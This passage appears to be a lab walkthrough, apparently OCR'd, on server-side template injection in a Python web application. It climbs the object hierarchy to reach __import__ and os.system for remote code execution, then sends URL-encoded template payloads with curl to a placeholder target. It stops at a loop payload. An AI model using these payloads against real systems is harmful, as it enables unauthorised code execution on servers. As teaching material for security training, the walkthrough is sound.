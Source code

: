```Python
z = y()._module.__builtins__
```

```Python
for i in z:
	if i.find('import') >-1:
		print(i, z[i])
```

```
__import__ <built-in function __import__>
```
It seems we have reached the import function by walking the hierarchy.
#### We can load `os` and use the `system` function to execute code all coming from a string object
```Python
''.__class__.__mro__[1].__subclasses__()
```

```
[215]()._module.__builtins__['__import__']('os').system('echo RCE from a string object')
RCE from a string object
0
```
#### Return to the web application and see how you can repeat the process and develop an RCE payload
```Python
{{ ''.__class__ }}
```
#### Use as a URL encoded payload with cURL
```Shell
curl -gs "http://<TARGET IP>:<PORT>/execute?cmd=%7B%7B%20%27%27.__class__%20%7D%7D"
```
No success
#### Try the next in the hierarchy
```Python
{{ ''.__class__.__mro__ }}
```
#### Use as a URL encoded payload with cURL
```Shell
curl -gs "http://<TARGET IP>:<PORT>/execute?cmd=%7B%7B%20%27%27.__class__.__mro__%20%7D%7D"
```
Still no success
#### Try next in the hierarchy
```Python
{{ ''.__class__.__mro__[1] }}
```
#### Use as a URL encoded payload with cURL
```Shell
curl -gs "http://<TARGET IP>:<PORT>/execute?cmd=%7B%7B%20%27%27.__class__.__mro__%5B1%5D%20%7D%7D"
```
No success
#### Try next in the hierarchy
```Python
{{ ''.__class__.__mro__[1].__subclasses__() }}
```
#### Use as a URL encoded payload with cURL
```Shell
curl -gs "http://<TARGET IP>:<PORT>/execute?cmd=%7B%7B%20%27%27.__class__.__mro__%5B1%5D.__subclasses__%28%29%20%7D%7D"
```
#### Print out the number and the method names using the following payload
```Python
{% for i in range(450) %}
```